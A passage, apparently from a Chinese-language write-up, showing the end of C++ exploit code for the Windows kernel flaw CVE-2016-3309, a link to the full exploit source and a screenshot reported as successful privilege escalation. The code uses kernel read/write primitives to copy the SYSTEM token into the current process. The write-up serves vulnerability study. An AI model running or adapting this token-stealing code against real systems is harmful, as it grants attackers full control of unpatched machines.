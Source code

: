 ```
            (PBYTE)&ulPID, sizeof(ULONG64)))
        {
            bRet = FALSE;
            goto exit;
        }
    } while (ulPID != ulCurPID);

    if (!BitMapWrite_CVE_2016_3309(ulEprocess + dwTokenOffset, (PBYTE)&ulSystemToken, sizeof(ULONG64)))
    {
        bRet = FALSE;
        goto exit;
    }

exit:
    return bRet;
}

ULONG64 GetSystemEprocess_CVE_2016_3309()
{
    ULONG64 ulSystemAddr = GetSystemProcess();

    if (!ulSystemAddr)
    {
        goto exit;
    }

    ULONG64 ulSystemEprocess = 0;

    if (!BitMapRead_CVE_2016_3309(ulSystemAddr,
                      (PBYTE)&ulSystemEprocess,
                      sizeof(ULONG64)))
    {
        goto exit;
    }

exit:
    return ulSystemEprocess;
}
```  
  
  
完整的exp地址保存在：  
https://github.com/LegendSaber/exp_x64/blob/master/exp_x64/CVE-2016-3309.cpp  
。运行程序，可以看到提权成功：  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/1UG7KPNHN8G3WVayxh1xe4Vwicic63emUE2OcIG536ibqpCRiaMuF5vH20S9Kx3csMf03SvCec3ia4iayaRdfoibER3iaw/640?wx_fmt=jpeg "")  
  
# 参考资料  
# https://xz.aliyun.com/t/6842  
# https://xz.aliyun.com/t/2919  
# https://sensepost.com/blog/2017/exploiting-ms16-098-rgnobj-integer-overflow-on-windows-8.1-x64-bit-by-abusing-gdi-objects/  
  
